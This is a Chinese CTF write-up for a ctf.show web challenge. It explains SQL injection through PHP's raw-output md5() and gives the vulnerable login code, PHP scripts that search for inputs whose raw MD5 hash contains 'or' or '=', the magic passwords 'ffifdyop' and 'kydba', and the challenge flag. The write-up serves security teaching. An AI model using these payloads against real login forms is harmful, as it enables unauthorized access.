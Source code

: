 ```yaml
---
title: MD5哈希注入
date: 2020-04-15
image: 
description: 
categories: 
- ctf_writeup
tags:
- SQLi
---
```

在网上看到一道CTF题目：https://ctf.show/challenges#web9

打开后扫目录发现robots.txt，里面提示了index.phps，下载，审计，发现MD5哈希注入：

```
<?php
    $flag="";
    $password=$_POST['password'];
    if(strlen($password)>10){
      die("password error");
    }
    $sql="select * from user where username ='admin' and password ='".md5($password,true)."'";
    $result=mysqli_query($con,$sql);
    if(mysqli_num_rows($result)>0){
        while($row=mysqli_fetch_assoc($result)){
           echo "登陆成功<br>";
           echo $flag;
        }
    }
?>
```

问题出在第7行`md5($password,true)`，密码使用了 md5 以二进制形式加密后进行在数据库中进行查询，若查询到了数据，就返回成功。

![img](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed@main/img/20210120165922.png)

 

第一种方法是将加密后的密码构造出类似 ' or '1' 的形式

```
<?php

    $v = 'a';

    $payload2 = "'or'";
    while(1){
        $hash = hash("md5",$v,true);
        if(substr_count($hash, $payload2) == 1){
            die($v);     
        }
        $v++;
    }

?>
```

这是网上的脚本不过我倒是没跑出来。。。

这里 `$v++` 其实是按照 ascii 字符进行后移的；

最后可以得到一个结果 `ffifdyop`，（还有一个是`129581926211651571912466741651878684928`）

将这个加密回去试试，看到确实是`'or'`的形式

那么只要我们随意输入一个用户名，密码为 `ffifdyop` 那么这样我们的语句就变成了：

```
select * from users where user = 'admin' and password = ''or'6蒥欓!r,b'
```

这样就可成功绕过判断。

 

还有一个构造的方法是构造 `'='` 的形式，也就是

```
select * from users where user = 'admin' and password = ''=''
```

为什么这样构造可以呢？因为 `password = ''=''` 中，先判断 `password =''` ，这个肯定是返回 0 的，因为 password 中没有`''`这个字段值，前面返回 0 以后，再和后面的等号做比较：`0 = ''`

因为后面的根据 php 的弱类型进行判断，0 和字符串比较始终返回 1

所以整个 sql 语句就相当于：

```
select * from users where user = 'admin' and 1
```

所以与上面的 'or' 不同的是，这个需要传入一个存在的用户名才可以正常绕过：

```
//by wh1sper
<?php

$v = 'a';

//die(md5('kydba',true));

$payload2 = "'='";
while(1){
    $hash = hash("md5",$v,true);
    if(preg_match("/^$payload2/i", $hash)){
        die($v);
    }
    $v++;
}
```

得到结果是`kydba`，加密回去是`'='NJ��s��5�z��@`

flag{9e92802a-684e-4115-bbe8-f3fdbbf71339}